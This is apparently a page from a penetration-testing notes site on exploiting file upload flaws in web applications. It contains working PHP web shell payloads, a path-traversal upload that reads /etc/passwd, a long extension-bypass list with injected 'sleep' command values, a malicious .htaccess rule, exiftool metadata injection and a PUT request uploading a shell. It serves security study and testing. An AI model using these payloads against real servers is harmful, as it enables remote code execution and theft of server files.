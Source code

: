```yaml
---
title: File Upload
category: Web
order: 14
---
```


File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size. Failing to properly enforce restrictions on these could mean that even a basic image upload function can be used to upload arbitrary and potentially dangerous files instead. This could even include server-side script files that enable remote code execution.

# PHP Payloads

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
<?php echo system($_GET['command']); ?>
```

# Exploiting flawed validation of file uploads

## Flayed file type validation

Some times we can bypass restrictions by setting a content-type of an image or pdf using the malicious extension such as `.php`.

```
Content-Type: image/png
Content-Type: image/jpg
Content-Type: application/pdf
```

## Preventing file execution in user-accesible directories

A second line of defense is to stop the server from executing any scripts. Servers generally only run scripts when their MIME type they have been explicitly configured to execute. Otherwise they may just return some kind of error message or serve the contents of the file as plain text.

Try to do a path traversal on filename

```
Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2ftest.php"
Content-Type: text/plain

<?php echo file_get_contents('/etc/passwd'); ?>
-----------------------------29819338021499936129294
```

> **Note**: Try the payload normal and URL encoded.


## Blacklisting dangerous extensions

Another way to preventing users from uploading malicious scripts is to blacklist potentially dangerous file extensions like `.php`. It's difficult to explicitly block every possible file extension that could be used to execute code. Some times that blacklist can be bypassed by using lesser known extension such as:

```
php
php2
php3
php4
php5
php6
php7
phps
pht
phtml
pgif
shtml
htaccess
phar
inc
asp
aspx
config
ashx
aspq
axd
cshtm
cshtml
rem
soap
vbhtm
vbhtml
asa
asp
cer
shtml
pHp
pHP5
PhAr
phP
PHP
vbs
js
rb
exe
html
hash
git
py
pyc
txt
zip
rar
mp3
mp4
csv
po
pdf
jar
tgz
xls
crt
jpeg
sql
msi
der
rdp
jsp
jspx
jsw
jsv
jspf
cfm
cfml
cfc
dbm
php.png
png.php
php%00.png
php%00
php%20
php..........
php/
php.\
php.bha123jpg
php\x00.jpg
../../etc/passwd/logo.png
../../../logo.png
'sleep(10).jpg
sleep(10)-- -.jpg
; sleep 10;
```

## Overriding the server configuration

Servers typically will not execute files unless they have been configured to do so. Apache server will execute PHP files requested by a aclient if its configured on `/etc/apache2/apache2.conf`.

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
	AddType application/x-httpd-php .php
```

It is possible to create special configuration files within individual directories with the file `.htaccess`. Similar on IIS with `web.config`.

We can try to upload a malicious configuration file in order to execute code.

* Example of `.htaccess` on apache with php server:

```
AddType application/x-httpd-php .benjugat
```

## Obfuscating file extensions

A blacklist can be potentially bypasses using one or more classic obfuscation technquiques:

* Using uppercase: `file.pHP`
* Multiple extension: `file.php.jpg`, `file.jpg.php`
* URL encoding: `file%2Ephp`
* DobleURL encoding: `file%252Ephp`
* Semicolon between extensions: `file.php;.jpg`
* Null-byte: `file.php%00.jpg`
* Anti-striping: `file.ph.phpp`

## Flawed validation of the file's contents

Instead of trusting `Content-Type`, a more secure technique is to validate the content of the file if match with an image or not. There are tools that helps us to insert our payload in metadata.

```
$ exiftool -DocumentName='<br><?php echo system($_GET["command"]); ?><br>' image.png
    1 image files updated
```

# Uploading files with PUT

Some servers are configured to support `PUT` requests. This can be an alternative of uploading malicious files.

```
PUT /files/benjugat.php HTTP/1.1
Host: hackingnotes.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo system($_GET['command']); ?>
```